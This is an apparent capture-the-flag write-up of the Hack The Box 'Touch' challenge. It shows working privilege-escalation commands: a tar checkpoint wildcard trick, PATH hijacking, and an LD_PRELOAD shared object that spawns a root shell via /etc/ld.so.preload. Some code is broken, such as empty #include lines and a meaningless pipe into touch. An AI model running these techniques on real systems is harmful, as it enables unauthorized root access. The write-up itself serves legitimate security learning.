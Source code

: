 # Hack_the_box_touch
# Touch-HTB-writeup
This is an writeup for the hack the box touch

🚩 Hack The Box: Touch - Full Write-Up

Challenge Description:
"Push me, and then just touch me, till I can get my, Satisfaction!"

This hinted at something related to the touch command, likely combined with privilege escalation.

1️⃣IInitial Recon & Enumeration

The Hack the Box touch reavealed an Host IP and Port Address which we can connect with using utility tools like netcat and telnet for network communication.
![image](https://github.com/user-attachments/assets/54119eda-f0fa-4609-937b-03dc034dda1c)


 
Nmap scan of the target only revealed one open port which we could connect to

![image](https://github.com/user-attachments/assets/0165c26f-f255-4704-9f17-c7ceea7f6de5)

We started with a foothold as the low-privileged user ctf. First, we checked:

![image](https://github.com/user-attachments/assets/f4ba1ac3-fa2b-47f5-9690-7931561ff4ce)

 
SUID binaries:**

find / -perm -4000 2>/dev/null
The key finding:

-rwsr-sr-x 1 root root 97152 Feb 28  2019 /bin/touch
![image](https://github.com/user-attachments/assets/91a128ba-da0c-4667-85be-048300929edc)


 

✅ Interesting: /bin/touch has the SUID bit set — it runs as root.

We also explored /usr/bin and /bin to check available binaries for potential exploitation (gzip, tar, zcat, etc.).

2️⃣ Compression Utility & Tar Checkpoint Exploit

We attempted a tar --checkpoint-action exploit, where tar can execute a script after processing files:

Steps:

touch /tmp/--checkpoint=1
touch "/tmp/--checkpoint-action=exec=sh /home/ctf/exploit.sh"
echo '#!/bin/bash' > /home/ctf/exploit.sh
echo '/bin/bash -p' >> /home/ctf/exploit.sh
chmod +x /home/ctf/exploit.sh
tar cf archive.tar *

🔍 Idea: If a cron job or script runs tar as root, it might trigger the exploit.

❌ Result: Nothing happened because no automated tar process was running as root.

3️⃣ PATH Hijacking Attempts

We tried PATH hijacking by creating a fake touch binary and setting the PATH to favor /tmp:

echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/touch
chmod +x /tmp/touch
export PATH=/tmp:$PATH

We hoped a privileged script would unknowingly call touch from our PATH.

❌ Result: No success; nothing called our fake binary.

4️⃣ Direct File Overwrite Tricks

We tried overwriting a root-owned file using:

cat exploit.sh | /bin/touch /tmp/root_shell
Using dd:

dd if=/home/ctf/exploit.sh of=/tmp/root_shell conv=notrunc
![image](https://github.com/user-attachments/assets/d1a1aadd-4f40-4f90-a6b5-54b47d000df6)

 
❌ Result: Permission denied — expected since SUID binaries don’t give root write access to arbitrary files.

5️⃣ LD\_PRELOAD Attack 

We realized LD\_PRELOAD is a powerful vector.

LD\_PRELOAD allows loading a shared library before others, letting us hijack functions in binaries.
We wrote a malicious shared object that escalates privileges:

#include
#include
#include
#include

void _init() {
    unsetenv("LD_PRELOAD"); // Avoid loops
    setuid(0);
    setgid(0);
    system("/bin/bash -p"); // Root shell
}

We compiled it locally on the machine

gcc -fPIC -shared -o preload.so preload.c -nostartfiles

Copied the output file by first encoding it using base64 and decoding it on local machine utility base64 tool

This was done locally reason for this is there is no gcc compiler on target HTB machine.

 w
 ![image](https://github.com/user-attachments/assets/5065c0a5-671e-4a26-8f2b-b29c6883c747)


Then ran:

Created ld.so.preload with

touch ld.so.preload

Used umask to make it writable : umask 0000

Wrote path to /etc/ld.so.preload: echo /tmp/preload.so > /etc/ld.so.preload 

Triggered SUID binary: touch

 
🔎 Result:
If the SUID binary honored LD\_PRELOAD (which is rare for SUID binaries and this would escalate to root.)
![image](https://github.com/user-attachments/assets/92f70ea8-a36f-4f67-b5e9-6e6d90f82321)


Result: popped a root shell!

We’re IN the root, Only thing left is now to switch to root and grab the flag.

🚀 Conclusion

By chaining together file permission tricks, SUID binary analysis, and dynamic library preloading, we successfully escalated from ctf to root, highlighting real-world privilege escalation paths.
